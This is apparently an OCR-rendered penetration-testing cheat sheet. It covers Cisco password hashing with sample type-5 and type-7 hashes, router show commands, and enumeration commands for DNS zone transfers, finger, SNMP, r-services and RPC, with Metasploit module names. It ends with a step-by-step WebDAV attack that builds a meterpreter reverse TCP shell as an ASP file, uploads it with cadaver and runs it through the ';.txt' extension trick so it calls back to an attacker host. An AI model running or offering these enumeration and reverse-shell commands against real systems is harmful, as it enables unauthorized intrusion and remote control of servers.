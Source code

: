 enable secret more secure than enable password.

For example, in the configuration command:
enable secret 5 $1$iUjJ$cDZ03KKGh7mHfX2RSbDqP.
The enable secret has been hashed with MD5, whereas in the command:
username jdoe password 7 07362E590E1B1C041B1E124C0A2F2E206832752E1A01134D
The password has been encrypted using the weak reversible algorithm.

enable - Change to privileged mode to view configs
config terminal/config t - Change to global config mode to modify

#show version - Gives you the router's configuration register (Firmware)
#show running-config - Shows the router, switch, or firewall's current configuration
#show ip route - show the router's routing table
#show tech-support - Dump config but obscure passwords

-------------------------------------------------------------------------- Remote Information Services

[+] DNS
Zone Transfer - host -l securitymuppets.com 192.168.100.2
Metasploit Auxiliarys:
auxiliary/gather/enum_dns
use auxiliary/gather/dns...

[+] Finger - Enumerate Users
finger @192.168.0.1
finger -l -p user@ip-address
auxiliary/scanner/finger/finger_users

[+] NTP
Metasploit Auxiliarys

[+] SNMP
onesixtyone -c /usr/share/doc/onesixtyone/dict.txt
Metasploit Module snmp_enum
snmpcheck -t snmpservice

[+] rservices
rwho 192.168.0.1
rlogin -l root 192.168.0.17

[+] RPC Services
rpcinfo -p
Endpoint_mapper metasploit

-------------------------------------------------------------------------- Web Services

[+] WebDAV
Metasploit Auxiliarys
Upload shell to Vulnerable WebDAV directory:
msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.20 LPORT=4444 R | msfencode -t asp -o shell.asp
cadaver http://192.168.0.60/
put shell.asp shell.txt
copy shell.txt shell.asp;.txt
Start reverse handler - browse to http://192.168.0.60/shell.asp;.txt
